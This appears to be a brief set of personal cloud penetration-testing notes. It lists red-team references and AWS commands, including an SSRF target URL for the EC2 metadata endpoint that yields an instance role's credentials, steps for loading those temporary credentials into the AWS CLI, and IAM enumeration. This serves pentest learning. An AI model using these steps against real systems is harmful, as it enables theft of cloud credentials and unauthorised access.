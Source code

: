 # Cloud Pentest - Notes

**References:**

- https://github.com/RedTeamOperations/RedCloud-OS?tab=readme-ov-file

## Courses

- [Multi Cloud Red Team Analyst](https://cyberwarfare.live/product/multi-cloud-red-team-analyst-mcrta/)

## AWS

**References:**

- https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf

**Commands:** 

Search S3 Buckets: `python3 cloud_enum.py -k "NAME"` 

SSRF URL for Token and key: `http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-role`

Configure & Validate Temporary Credential in AWS CLI:

1. aws configure set aws_access_key_id  [key-id] --profile ec2
2.  aws configure set aws_secret_access_key  [key-id] --profile ec2
3.  aws configure set aws_session_token [token] --profile ec2

Get the Managed Policy Attached to EC2 Instance : `aws iam list-attached-role-policies --role-name ec2-role --profile ec2`

List the IAM groups that the specified IAM user belongs to: `aws iam list-groups-for-user --user-name [user-name] --profile ec2`

 List the names of the inline policies embedded in the specified IAM role : ` aws iam list-role-policies --role-name [role-name] --profile ec2`

List all manages policies that are attached to the specified IAM user : `aws iam list-attached-user-policies --user-name [user-name] --profile ec2` 

Lists all managed policies that are attached to the specified IAM Group : `aws iam list-attached-group-policies --group-name [group-name] --profile ec2`

## AZURE